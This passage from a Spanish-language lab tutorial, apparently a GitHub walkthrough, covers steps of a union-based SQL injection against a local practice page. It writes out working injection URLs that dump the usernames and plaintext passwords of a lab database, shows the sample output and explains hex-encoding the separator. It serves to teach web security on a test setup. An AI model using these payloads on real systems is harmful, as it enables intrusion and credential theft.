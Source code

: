 **Explicación:** Al utilizar `group_concat(username)`, obtenemos una lista con los nombres de usuario en la tabla `users`. En este caso, los usuarios son `admin`, `metahumo`, y `alodia`. Esto nos proporciona información sobre los usuarios almacenados en la base de datos.

**Nota:** En este caso, estamos trabajando con la base de datos `Metahumo` que ya está en uso, como vimos en el paso anterior al ejecutar `database()`. Si no fuera así, tendríamos que indicar explícitamente la base de datos, como se muestra en el siguiente paso.

---

## Paso 40: Obtener los usuarios de otra base de datos

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(username) from Metahumo.users-- -
```

**Explicación:** Este paso es similar al anterior, pero en este caso especificamos explícitamente la base de datos `Metahumo`, aunque ya estaba en uso. Si no fuera la base de datos en uso, tendríamos que indicar siempre la base de datos como lo hacemos aquí.

---

## Paso 41: Obtener usuarios y contraseñas

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(username,0x3a,password) from Metahumo.users-- -
```

**Explicación:** Al ejecutar esta consulta, obtenemos tanto los nombres de usuario como las contraseñas, separados por `0x3a` (el valor hexadecimal que representa los dos puntos `:`). El resultado muestra algo como:

```
admin:admin123$!p@$$,metahumo:metahumo123,alodia:alodita
```

Esto nos da acceso a los datos de usuario y contraseña. El uso de `0x3a` (hexadecimal) es preferible, ya que evita posibles problemas con las comillas que podrían interferir con la ejecución de la consulta. Si usáramos los dos puntos directamente en la consulta, podrían surgir conflictos y no mostrar el resultado.

**Nota:** Es importante conocer los valores hexadecimales al utilizar caracteres especiales como los dos puntos. Esto se puede comprobar con el comando `man ascii` en el terminal.

# Inyecciones a ciegas

## Inyecciones condicionales

